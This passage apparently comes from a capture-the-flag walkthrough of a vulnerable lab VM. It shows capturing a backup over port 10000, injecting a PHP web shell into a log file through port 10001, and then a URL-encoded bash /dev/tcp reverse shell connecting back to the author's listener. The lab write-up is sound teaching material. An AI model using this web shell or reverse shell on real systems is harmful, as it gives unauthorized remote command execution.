   
At this point I got stuck, and had to check a walkthrough for tips. While scrolling down carefully, they mentioned using wireshark and just listening for a while. The server attempted to connect to port 10000 and gives a whole lot of garbled data. Waited another 5 minutes and made sure this time to store the data. It was a gzip file, decompressing it revealed lots of files, but it's still suspicious how to use it next.  
  
From time to time I noticed that port 10001 opens up (noticed it at the very start), when I found it open I wrote some stuff into it then hit CTRL+C. 

Nothing happened! But then I checked the backup_log.php file again, **it was blank**. I believe there's a bug with the code, but ultimately I had to restart the VM and this time when I wrote some text I waited till the port time out. Refreshing the php file shows our output as well as executes any php code embedded.  
  
_(Oh and by the way, this seems to happen after the server tries to contact us
on port 10000.)_  

```console    
root@kali:~/Desktop# cat text  
It's me, abatchy  
<?php system($_GET['cmd']) ?> 


root@kali:~/Desktop# nc -nvlp 10000 > file.gz && nc -nv 192.168.2.120 10001 < text  
listening on [any] 10000 ...  
connect to [192.168.2.240] from (UNKNOWN) [192.168.2.120] 49182  
(UNKNOWN) [192.168.2.120] 10001 (?) open 


root@kali:~/Desktop# curl http://192.168.2.120/logs/backup_log.php?cmd=whoami


... 


<redacted>   
...


It's me, abatchy apache  
```
  
Awesome, let's try a bash one-liner to get a reverse shell. First start a listener on port 443.
```console
------------------------------Terminal 1------------------------------ 


root@kali:~/Desktop# nc -nvlp 443  
listening on [any] 443 ...


------------------------------Terminal 2------------------------------ 


root@kali:~/Desktop# curl "http://192.168.2.120/logs/backup_log.php?cmd=bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.2.240%2F443%200%3E%261"


------------------------------Terminal 1------------------------------ 


root@kali:~/Desktop# nc -nvlp 443  
listening on [any] 443 ...  
connect to [192.168.2.240] from (UNKNOWN) [192.168.2.120] 42663  
bash: no job control in this shell  
bash-3.1$ hostname  
```
